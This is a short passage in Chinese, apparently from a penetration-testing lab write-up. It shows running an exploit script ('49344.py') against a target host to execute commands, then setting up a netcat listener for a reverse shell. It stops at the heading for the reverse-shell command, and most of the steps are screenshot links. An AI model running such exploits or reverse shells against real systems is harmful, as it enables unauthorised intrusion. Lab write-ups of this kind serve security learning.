 

#### 保存脚本

![image-20250324185117238](assets/image-20250324185117238.png)



#### 执行

```
python 49344.py
http://sar.pl0t.nyx/
ls
```

![image-20250324185148204](assets/image-20250324185148204.png)



#### 执行反弹shell命令

##### 本地开启监听

```
nc -lvp 283
```

![image-20250324185221806](assets/image-20250324185221806.png)

##### 执行弹shell命令
